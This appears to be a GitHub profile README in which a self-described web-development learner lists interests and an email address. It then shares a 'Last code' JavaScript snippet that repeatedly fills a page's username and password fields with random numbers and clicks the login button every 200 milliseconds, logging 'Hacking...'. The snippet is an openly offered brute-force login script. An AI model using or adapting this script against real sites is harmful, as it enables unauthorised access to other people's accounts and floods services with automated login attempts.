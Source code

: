 - 👋 Hi, I’m @H4YKM
- 👀 I’m interested in programming, motion design, web developing, web design & more
- 🌱 I’m currently learning JavaScript, Vue, React, Angular, Node, Express & more!
- 💞️ I’m looking to collaborate on courses and code
- 📫 How to reach me haykm2006@gmail.com

Last code:

```
const login = document.getElementById('username')
const password = document.getElementById('password')
const button = document.querySelector('.fadeIn.third.shadow')

function generateRandomInteger(min, max) {
    return Math.floor(min + Math.random() * (max + 1 - min))
}

setInterval(() => {
        const number = generateRandomInteger(10000, 50000) // Max number, min number
        login.value = number
        password.value = number

        console.log('Hacking...')
        button.click()
    }, 200) // Change interval
```js
